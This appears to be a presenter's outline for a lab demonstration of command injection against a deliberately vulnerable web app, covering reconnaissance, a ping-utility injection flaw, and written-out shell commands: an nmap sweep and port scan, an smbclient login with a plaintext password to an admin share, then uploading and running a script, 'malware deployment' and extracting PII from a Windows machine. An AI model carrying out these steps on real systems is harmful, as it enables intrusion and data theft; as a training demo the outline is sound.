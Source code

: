Command Injection Demo:
=======================

Academic:
=========
    Dig through DNS
    Port scan IPs
    Interrogate IP
	HTTP Watch/Fiddler/Postman/Wireshark
	Headers can indicate the stack


Commands:
==========
    Login: wier credentials to connect.hackysock.com\
    Browse site… Exploratory work\
    Over to the ping utility\
        note the command injection flaw.\
	    whoami\
	    pwd\
	    cd ../../\
	    ls\
	    ifconfig -a | grep netmask\
	    which nmap\
	    nmap -sP 192.168.122.1/24\
	    namp -p 135 192.168.122.7\
	    smbclient -N '//192.168.122.7/c$' -W HACKYSOC -U wier%frantic-Folly3 -c ls
	
Find Upload section:
====================
    Upload file: Note the path description\
	Figure out where uploads go\
	Upload script\
	CHMOD script\
		chmod 775 ../../hackable/uploads/pull_scripts.sh\
	Execute script\
		../../hackable/uploads/pull_scripts.sh\
	Show all the scripts that were pulled down from GitHub

Drop to Shell:
=============
Drop to shell to show rest of demo and malware deployment.\
	Execute pii script\
	Show pii data pulled from windows machine
	


Wrap up:
========

Narrative